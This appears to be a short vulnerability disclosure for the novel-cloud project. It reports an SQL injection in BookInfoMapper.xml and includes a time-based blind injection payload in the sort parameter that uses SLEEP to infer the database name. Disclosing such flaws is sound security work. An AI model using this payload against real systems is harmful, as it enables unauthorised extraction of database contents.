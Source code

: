 I discovered an SQL injection vulnerability in this project https://github.com/201206030/novel-cloud

`novel-cloud-master/novel-book/novel-book-service/src/main/resources/mapper/BookInfoMapper.xml`

![QQ_1744449298736](https://fc04db.oss-cn-hangzhou.aliyuncs.com/image/202504121719289.png)

source class：condition

![QQ_1744449641259](https://fc04db.oss-cn-hangzhou.aliyuncs.com/image/202504121720500.png)

prove：

sort=(IF(SUBSTRING(DATABASE(),1,1)%3d'a',+SLEEP(5),+1))
![image](https://github.com/user-attachments/assets/c067b502-109d-4cd7-9d6f-40eb3a86706c)
